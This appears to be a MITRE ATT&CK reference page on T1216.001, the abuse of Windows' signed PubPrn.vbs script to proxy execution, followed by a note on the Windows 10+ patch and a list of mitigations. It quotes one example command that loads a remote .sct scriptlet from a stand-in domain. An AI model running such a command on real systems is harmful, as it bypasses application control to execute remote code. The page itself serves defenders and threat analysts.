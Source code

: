 ```yaml
---
tags:
   - techniques
---
```

# PubPrn
## ID:T1216/001
Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).
## Mitigations
* [Execution Prevention](mitigations/M1038)
* [Behavior Prevention on Endpoint](mitigations/M1040)
